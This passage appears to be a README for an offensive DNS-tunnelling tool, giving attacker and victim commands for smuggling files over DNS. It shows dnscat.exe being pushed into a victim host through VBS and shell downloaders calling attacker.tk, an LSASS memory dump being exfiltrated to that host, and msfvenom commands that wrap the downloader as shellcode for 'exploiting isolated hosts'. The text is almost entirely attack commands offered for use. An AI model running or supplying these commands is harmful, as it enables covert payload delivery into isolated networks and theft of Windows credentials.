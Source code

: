 Correct `yourzone.tk`.

### infiltration
Change loops count in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```

### exfiltration
```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```

### dns-shellcode
It can be used as dns-shellcode alternative (with a bit changes) for exploiting isolated hosts:
```
msfvenom -p windows/exec CMD=$(cat dns_download.vbs) -f raw -o dns_shellcode
msfvenom -p linux/x86/exec CMD=$(cat dns_download.sh) -f raw -o dns_shellcode
```
